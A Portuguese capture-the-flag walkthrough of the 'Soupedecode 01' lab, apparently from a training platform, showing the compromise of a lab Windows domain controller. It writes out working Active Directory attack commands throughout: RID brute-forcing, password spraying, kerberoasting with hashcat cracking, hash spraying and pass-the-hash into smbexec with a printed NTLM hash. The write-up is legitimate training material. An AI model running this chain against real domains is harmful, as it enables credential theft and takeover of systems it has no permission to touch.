# _**Soupedecode 01 CTF**_


## _**Enuemração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```


Segundo, temos a seguinte descrição sobre a sala  
_Os jogadores devem comprometer um controlador de domínio explorando a autenticação Kerberos, navegando por compartilhamentos SMB, executando pulverização de senhas e utilizando técnicas Pass-the-Hash_  
Terceiro, pelo scan que realizamos, sabemos e podemos:
* Pela saída do Nmap, o alvo é um Controlador de Domínio Windows Server (DC01.SOUPEDDECODE.LOCAL) rodando Windows Server 2022
* Ataques de enumeração de usuários na porta 88
* Enumeração de usuários, grupos e políticas de senha nas portas 389 e 3268
* Enumeração de compartilhamentos e usuários no serviço SMB

Vamos investigar a porta que contém o serviço SMB com o comando ```smbmap -H [ip_address] -u guest -p ""```  
Apesar de termos um _read only_, o IPC$ não é um compartilhamento "de arquivos" para abrir e ler, ele é um pipe de comunicação do SMB usado para RPC  
Continuando, podemos tentar realizar uma enumeração via <mark>Kerbrute</mark>  
Como já sabemos o domínio, **SOUPEDDECODE.LOCAL** e o hostname, **DC01**, vamos executar o seguinte comando para tentar recuperar usuários
> ```bash
> nxc smb [ip_address] -u 'guest' -p '' --rid-brute 3000 | grep SidTypeUser | cut -d '\' -f 2 | cut -d ' ' -f 1 > valid_usernames.txt
> ```


Agora que temos uma lista de usuários válidos, podemos tentar realizar login com cada um deles através do comando abaixo
> ```bash
> nxc smb [ip_address] -u valid_usernames.txt -p valid_usernames.txt --no-bruteforce --continue-on-success
> ```


Após algum tempo, encontramos e temos resultado de um usuário válido  
Vamos utilizar o comando abaixo para recuperar informações de interesse
> ```bash
> nxc smb [ip_address] -u 'ybob317' -p 'ybob317' --shares
> ```


Agora, vamos executar o comando abaixo para nos conectarmos ao usuário e obter mais informações  
> ```bash
> python3 /usr/share/doc/python3-impacket/examples/smbclient.py SOUPEDDECODE.LOCAL/ybob317:ybob317@dc01.soupedecode.local
> ```


Temos nossa primeira flag!  

## _**Escalando privilégios e a root.txt**_
Primeiro, vamos executar o seguinte comando para verificar _kerberostable_  
> ```bash
> python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -outputfile kerberoastables.txt 'SOUPEDECODE.LOCAL/ybob317:ybob317'
> ```


Agora, usando hashcat, vamos tentamos quebrar os hashes com _rockyou.txt_ e descobrir a senha da conta _file_svc_  
> ```bash
> hashcat kerberoastables.txt /usr/share/wordlists/rockyou.txt
> hashcat kerberoastables.txt --show
> ```


Temos a senha!  
Com a conta file_svc, re-enumeramos SMB e descobrimos que agora temos acesso de leitura ao compartilhamento de backup através do comando ```nxc smb dc01.soupedecode.local -u 'file_svc' -p '[password]' --shares```  
Agora, acessamos e lemos o arquivo _.txt_  



Copiamos para um arquivo _backup_extracted_ e então, realizamos uma limpa para ficarmos apenas com hashes e nomes de usuário
> ```bash
> cat backup_extract.txt | cut -d ':' -f 1 > backup_extract_users.txt
> cat backup_extract.txt | cut -d ':' -f 4 > backup_extract_hashes.txt
> ```

Agora, utilizamos _hash spraying_ usando nxc com a lista de nomes de usuários e seus hashes correspondentes
> ```bash
> nxc smb dc01.soupedecode.local -u backup_extract_users.txt -H backup_extract_hashes.txt --no-bruteforce --continue-on-success
> ```


A tag na saída do comando acima indica que a conta **FileServer$** tem privilégios administrativos no destino, permitindo-nos usar um script _impacket como smbexec.py_ para executar comandos no DC  
Vamos nos conectar com o comando ```python3 /usr/share/doc/python3-impacket/examples/smbexec.py -hashes :e41da7e79a4c76dbd9cf79d1cb325559 'SOUPEDECODE.LOCAL/FileServer$@dc01.soupedecode.local'```  


